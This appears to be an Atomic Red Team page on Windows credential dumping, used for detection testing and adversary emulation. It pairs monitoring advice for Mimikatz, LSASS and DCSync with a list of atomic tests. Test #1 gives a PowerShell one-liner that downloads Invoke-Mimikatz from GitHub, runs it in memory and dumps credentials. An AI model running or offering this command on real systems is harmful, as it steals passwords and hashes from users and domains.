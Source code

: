 On Windows 8.1 and Windows Server 2012 R2, monitor Windows Logs for LSASS.exe creation to verify that LSASS started as a protected process.

Monitor processes and command-line arguments for program execution that may be indicative of credential dumping. Remote access tools may contain built-in features or incorporate existing tools like Mimikatz. PowerShell scripts also exist that contain credential dumping functionality, such as PowerSploit's Invoke-Mimikatz module, (Citation: Powersploit) which may require additional logging features to be configured in the operating system to collect necessary information for analysis.

Monitor domain controller logs for replication requests and other unscheduled activity possibly associated with DCSync. (Citation: Microsoft DRSR Dec 2017) (Citation: Microsoft GetNCCChanges) (Citation: Samba DRSUAPI) Note: Domain controllers may not log replication requests originating from the default domain controller account. (Citation: Harmj0y DCSync Sept 2015). Also monitor for network protocols  (Citation: Microsoft DRSR Dec 2017) (Citation: Microsoft NRPC Dec 2017) and other replication requests (Citation: Microsoft SAMR) from IPs not associated with known domain controllers. (Citation: AdSecurity DCSync Sept 2015)

Platforms: Windows

Data Sources: API monitoring, Process command-line parameters, Process monitoring, PowerShell logs

Permissions Required: Administrator, SYSTEM

Contributors: Vincent Le Toux, Ed Williams, Trustwave, SpiderLabs</blockquote>

## Atomic Tests

- [Atomic Test #1 - Powershell Mimikatz](#atomic-test-1---powershell-mimikatz)

- [Atomic Test #2 - Gsecdump](#atomic-test-2---gsecdump)

- [Atomic Test #3 - Windows Credential Editor](#atomic-test-3---windows-credential-editor)

- [Atomic Test #4 - Registry dump of SAM, creds, and secrets](#atomic-test-4---registry-dump-of-sam-creds-and-secrets)


<br/>

## Atomic Test #1 - Powershell Mimikatz
Dumps Credentials via Powershell by invoking a remote mimikatz script

**Supported Platforms:** windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_script | URL to a remote Mimikatz script that dumps credentials | Url | https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1|

#### Run it with `powershell`!
```
IEX (New-Object Net.WebClient).DownloadString('#{remote_script}'); Invoke-Mimikatz -DumpCreds
```
<br/>
<br/>
